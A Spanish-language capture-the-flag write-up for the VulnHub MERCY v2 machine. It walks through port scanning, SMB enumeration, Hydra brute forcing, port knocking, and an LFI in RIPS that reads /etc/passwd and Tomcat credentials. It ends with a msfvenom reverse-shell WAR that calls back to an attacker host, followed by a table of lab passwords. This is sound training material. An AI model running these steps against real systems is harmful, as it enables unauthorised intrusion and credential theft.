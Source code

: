 # MERCYv2
Desarrollo del CTF MERCERY V2


## 1. Configuración de la VM

- Download: https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/

## 2. Escaneo de Puertos

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.00078s latency).
Not shown: 65525 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL AUTH-RESP-CODE RESP-CODES PIPELINING UIDL TOP STLS
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: more IMAP4rev1 ID have LITERAL+ Pre-login post-login LOGIN-REFERRALS listed capabilities OK LOGINDISABLEDA0001 IDLE ENABLE SASL-IR STARTTLS
445/tcp  open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
995/tcp  open     ssl/pop3s?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
MAC Address: 00:0C:29:0E:13:4F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2h39m58s, deviation: 4h37m07s, median: 0s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2021-03-22T01:34:28+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-21T17:34:28
|_  start_date: N/A
```

- Llama la atención TCP/80 y TCP/22 que aparecen como FILTERED. Un probable PORT KNOCKING.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy1.jpg" width=80% />


## 3. Enumeración

- Iniciamos la enumeración. Los puertos IMAP y POP3 no me brindó información importante.

### 3.1. Enumeración NETBIOS

- Identificamos la carpeta QIU compartida en el servidor.

```
root@kali:~/MERCY# smbclient -L \\10.10.10.143 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	qiu             Disk      
	IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))

```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy2.jpg" width=80% />

- El ENUM4LINUX nos brinda información interesante de usuarios (el resultado es muy grande, coloco lo mas importante)

```
 ============================= 
|    Users on 10.10.10.143    |
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: pleadformercy	Name: QIU	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: qiu	Name: 	Desc: 

user:[pleadformercy] rid:[0x3e8]
user:[qiu] rid:[0x3e9]
	User Name   :	qiu
	Full Name   :	
	Home Drive  :	\\mercy\qiu
	Dir Drive   :	
	Profile Path:	\\mercy\qiu\profile
  
  User Name   :	pleadformercy
	Full Name   :	QIU
	Home Drive  :	\\mercy\pleadformercy
	Dir Drive   :	
	Profile Path:	\\mercy\pleadformercy\profile

S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

S-1-22-1-1003 Unix User\fluffy (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy3.jpg" width=80% />

> En resumen tenemos: 04 usuarios identificados (qiu, pleadformercy, thisisasuperduperlonguser, fluffy) y una carpeta compartida (qiu).


### 3.2. Enumeración de TOMCAT

- Buscamos archivos en el servidor web TOMCAT.

```
root@kali:~/MERCY# nikto -h http://10.10.10.143:8080/ 

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        8080
+ Start Time:         2021-03-21 15:55:31 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8170 requests: 0 error(s) and 13 item(s) reported on remote host
```

- Encontramos el archivo robots.txt, dentro un mensaje en BASE64. 

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy4.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy5.jpg" width=80% />

- El mensaje nos indica que han encontrado contraseñas del tipo "password". Una pista.

- También identificamos carpetas por defecto en TOMCAT. Nada importante.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy6.jpg" width=80% />

## 4. Explotando la Vulnerabilidad

- Tenemos 04 usuarios y el posible uso de la contraseña "password". Tenemos varios protocolos donde probar: TOMCAT MANAGER, SMB, IMAP, POP3.

### 4.1. Acceso por SMB

```
root@kali:~/MERCY# hydra -V -L users.txt -P pass.txt smb://10.10.10.143
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 19:49:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 12 login tries (l:4/p:3), ~12 tries per task
[DATA] attacking smb://10.10.10.143:445/
[ATTEMPT] target 10.10.10.143 - login "qiu" - pass "password" - 1 of 12 [child 0] (0/0)
[445][smb] host: 10.10.10.143   login: qiu   password: password
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password" - 4 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password123" - 5 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "P@ssw0rd" - 6 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "thisisasuperduperlonguser" - pass "password" - 7 of 12 [child 0] (0/0)
[445][smb] Host: 10.10.10.143 Account: thisisasuperduperlonguser Error: Invalid account (Anonymous success)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password" - 10 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password123" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "P@ssw0rd" - 12 of 12 [child 0] (0/0)
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy7.jpg" width=80% />


- Identificamos los accesos qiu:user, vamos a probar el acceso a la carpeta qiu que habiamos identificado en la enumeración.

```
root@kali:~/MERCY# smbmap -H 10.10.10.143 -u qiu -p password -R qiu
[+] IP: 10.10.10.143:445	Name: 10.10.10.143                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	qiu                                               	READ ONLY	
	.\qiu\*
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	.
	dr--r--r--                0 Mon Nov 19 11:59:09 2018	..
	fr--r--r--             3637 Sun Aug 26 09:19:34 2018	.bashrc
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.public
	fr--r--r--              163 Fri Aug 31 15:11:34 2018	.bash_history
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.cache
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.private
	fr--r--r--              220 Sun Aug 26 09:19:34 2018	.bash_logout
	fr--r--r--              675 Sun Aug 26 09:19:34 2018	.profile
	.\qiu\.public\*
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	resources
	.\qiu\.public\resources\*
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	.
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	..
	fr--r--r--               54 Sun Aug 26 10:24:21 2018	smiley
	.\qiu\.cache\*
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	fr--r--r--                0 Fri Aug 31 14:22:05 2018	motd.legal-displayed
	.\qiu\.private\*
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	opensesame
	fr--r--r--               94 Sun Aug 26 10:22:35 2018	readme.txt
	dr--r--r--                0 Mon Nov 19 12:01:09 2018	secrets
	.\qiu\.private\opensesame\*
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	.
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	..
	fr--r--r--              539 Thu Aug 30 12:39:14 2018	configprint
	fr--r--r--            17543 Fri Aug 31 15:11:56 2018	config
```

- Dentro de la carpeta PRIVATE y OPENSESAME hay un archivo CONFIG interesante. Contiene la configuración de un PORT NOCK.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy8.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy9.jpg" width=80% />

### 4.2. Abiendo los puertos PORT NOCK

- Vamos abrir los puertos TCP/80 y TCP/22.

```
root@kali:~/MERCY# knock 10.10.10.143 159 27391 4
root@kali:~/MERCY# knock 10.10.10.143 17301 28504 9999
root@kali:~/MERCY# nmap -n -P0 -p 22,80 -sV 10.10.10.143
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:05 EDT
Nmap scan report for 10.10.10.143
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:0E:13:4F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy10.jpg" width=80% />


### 4.3. Enumeración de TCP/80 

- Nos toca enumerar nuevamente, esta vez con el puerto TCP/80 abierto. GOBUSTER, DIRSEARCH y NIKTO, lo básico.

```
root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_gobuster.txt 
/.hta (Status: 403) [Size: 283]
/.hta.txt (Status: 403) [Size: 287]
/.hta.html (Status: 403) [Size: 288]
/.hta.php (Status: 403) [Size: 287]
/.hta.asp (Status: 403) [Size: 287]
/.hta.aspx (Status: 403) [Size: 288]
/.hta.jsp (Status: 403) [Size: 287]
/.htaccess (Status: 403) [Size: 288]
/.htaccess.html (Status: 403) [Size: 293]
/.htaccess.php (Status: 403) [Size: 292]
/.htaccess.asp (Status: 403) [Size: 292]
/.htaccess.aspx (Status: 403) [Size: 293]
/.htaccess.jsp (Status: 403) [Size: 292]
/.htaccess.txt (Status: 403) [Size: 292]
/.htpasswd (Status: 403) [Size: 288]
/.htpasswd.txt (Status: 403) [Size: 292]
/.htpasswd.html (Status: 403) [Size: 293]
/.htpasswd.php (Status: 403) [Size: 292]
/.htpasswd.asp (Status: 403) [Size: 292]
/.htpasswd.aspx (Status: 403) [Size: 293]
/.htpasswd.jsp (Status: 403) [Size: 292]
/index.html (Status: 200) [Size: 90]
/index.html (Status: 200) [Size: 90]
/login.html (Status: 200) [Size: 67]
/robots.txt (Status: 200) [Size: 50]
/robots.txt (Status: 200) [Size: 50]
/server-status (Status: 403) [Size: 292]
/time (Status: 200) [Size: 79]


root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_nikto.txt 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2021-03-21 15:54:54 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3268: /mercy/: Directory indexing found.
+ Entry '/mercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Cookie stylesheet created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ Entry '/nomercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5a, size: 5745661f170dc, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.html: Admin login page/section found.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy11.jpg" width=80% />

- Encontramos lo siguiente: robots.txt, la carpeta /mercy/ y /nomercy/, la fecha en /time

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy12.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy13.jpg" width=80% />


### 4.3. Explotando RIPS

- Aunque era algo casi obvio, lo mas probable era que RIPS (la aplicacion en la carpeta /nomercy/) tuviera alguna vulnerabilidad.
- Buscamos en EXPLOIT-DB.COM e identificamos un LFI (Local File Inclusion).

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy14.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy15.jpg" width=80% />

```
<? root:x:0:0:root:/root:/bin/bash
<? daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<? bin:x:2:2:bin:/bin:/usr/sbin/nologin
<? sys:x:3:3:sys:/dev:/usr/sbin/nologin
<? sync:x:4:65534:sync:/bin:/bin/sync
<? games:x:5:60:games:/usr/games:/usr/sbin/nologin
<? man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<? lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<? mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<? news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<? uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<? proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<? www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<? backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<? list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<? irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<? gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<? nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<? libuuid:x:100:101::/var/lib/libuuid:
<? syslog:x:101:104::/home/syslog:/bin/false
<? landscape:x:102:105::/var/lib/landscape:/bin/false
<? mysql:x:103:107:MySQL Server,,,:/nonexistent:/bin/false
<? messagebus:x:104:109::/var/run/dbus:/bin/false
<? bind:x:105:116::/var/cache/bind:/bin/false
<? postfix:x:106:117::/var/spool/postfix:/bin/false
<? dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
<? dovecot:x:108:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
<? dovenull:x:109:120:Dovecot login user,,,:/nonexistent:/bin/false
<? sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
<? postgres:x:111:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
<? avahi:x:112:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
<? colord:x:113:124:colord colour management daemon,,,:/var/lib/colord:/bin/false
<? libvirt-qemu:x:114:108:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
<? libvirt-dnsmasq:x:115:125:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
<? tomcat7:x:116:126::/usr/share/tomcat7:/bin/false
<? pleadformercy:x:1000:1000:pleadformercy:/home/pleadformercy:/bin/bash
<? qiu:x:1001:1001:qiu:/home/qiu:/bin/bash
<? thisisasuperduperlonguser:x:1002:1002:,,,:/home/thisisasuperduperlonguser:/bin/bash
<? fluffy:x:1003:1003::/home/fluffy:/bin/sh 
```

- Toca automatizar la búsqueda de información importante a través de LFI. Desde el inicio el TOMCAT me parecia una manera de ganar acceso a través de TOMCAT MANAGER.
- Busqué la RUTA por defecto del archivo de configuración del TOMCAT MANAGER y encontré la contraseña.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy16.jpg" width=80% />


### 4.4. Accediendo a TOMCAT MANAGER

- Colocamos las credenciales en http://10.10.10.143:8080/manager/html thisisasuperduperlonguser:heartbreakisinevitable

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy17.jpg" width=80% />

- Subimos nuestra webshell y obtenemos conexión reversa.

```
root@kali:~/MERCY# msfvenom -p java/shell/reverse_tcp LHOST=10.10.10.133 LPORT=443 -f war -o reverse.war
Payload size: 6252 bytes
Final size of war file: 6252 bytes
Saved as: webshell.war
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy18.jpg" width=80% />


## 5. Elevando Privilegios

- Toca buscar con paciencia. No olvidemos las contraseñas que hemos obtenido hasta ahora:


| Usuario | Password |
| -- | -- | 
| thisisasuperduperlonguser|heartbreakisinevitable |
| fluffy|freakishfluffybunny |
| qiu|password |

























